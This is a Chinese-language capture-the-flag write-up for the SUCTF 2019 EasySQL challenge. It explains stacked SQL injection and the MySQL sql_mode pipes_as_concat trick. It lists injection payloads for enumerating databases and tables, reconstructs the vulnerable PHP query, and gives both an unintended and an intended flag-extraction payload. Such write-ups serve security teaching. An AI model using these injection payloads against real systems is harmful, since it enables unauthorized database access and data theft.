


# [SUCTF 2019]EasySQL

## 知识点

`堆叠注入`

`sql_mode管道符`

## 解题

`堆叠注入`试试

```mysql
1;show databases;-- -
1;show tables;-- -
1;show columns from `Flag`;-- - # 最后两个
1;desc Flag;-- -
```

### 原查询语句猜测

根据回显猜测代码里的SQL语句

回显用的是`var_dump`函数，当查询语句为纯数字的时候才回显。

数据库的特性，当`select`后面是数字的时候，即使查询的字段没有也不会报错，当查询的带有`英文字母`的时候，就会产生报错，所以初步判断查询的内容应该不是以往那种`SQL注入`的题目在`where后面`

而这里的就是在`select后面`的 ，试一下查询`1,2,3,4,5`



猜想正确，注意到原本查询唯独末尾的`5`变为了`1`，猜测是用到了`管道符`（`|` `||`之类的），导致`5`回显失败，这里先试试看查询

```
*,1
```

直接得到了`flag`，算是个非预期解



原`php`代码中的`SQL`语句应该是

```php
$sql = "select ".$_POST[query]."|| xxx from Flag" ;
```

### 预期解

这时候我们可以利用数据库的语句，更改`||`的意思，把它改为`连接符`，这样的话，不管输入啥都会查询到`flag`这个字段，构建`payload`

```sql
1;set sql_mode=pipes_as_concat;select 1
```

这样的话SQL语句就变成了

```sql
select 1;set sql_mode=pipes_as_concat;select 1 || flag from Flag
```

